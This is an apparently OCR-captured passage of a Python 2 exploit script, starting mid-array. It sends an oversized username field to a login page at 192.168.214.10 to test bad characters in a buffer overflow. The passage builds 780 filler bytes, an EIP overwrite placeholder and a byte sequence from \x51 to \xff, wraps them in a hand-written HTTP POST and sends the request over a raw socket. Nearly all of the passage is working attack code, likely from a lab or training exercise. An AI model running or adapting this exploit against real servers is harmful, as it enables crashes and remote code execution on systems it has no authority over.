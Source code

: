 ```python
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```
